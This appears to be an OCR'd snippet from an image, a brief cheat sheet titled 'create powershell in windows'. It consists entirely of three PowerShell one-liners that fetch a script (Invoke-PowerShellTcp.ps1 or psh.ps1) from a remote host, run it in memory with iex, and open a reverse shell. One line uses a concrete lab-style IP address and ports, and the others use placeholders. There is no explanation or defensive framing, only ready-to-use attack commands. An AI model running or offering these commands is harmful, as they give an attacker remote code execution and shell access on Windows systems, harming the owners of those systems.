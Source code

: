 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 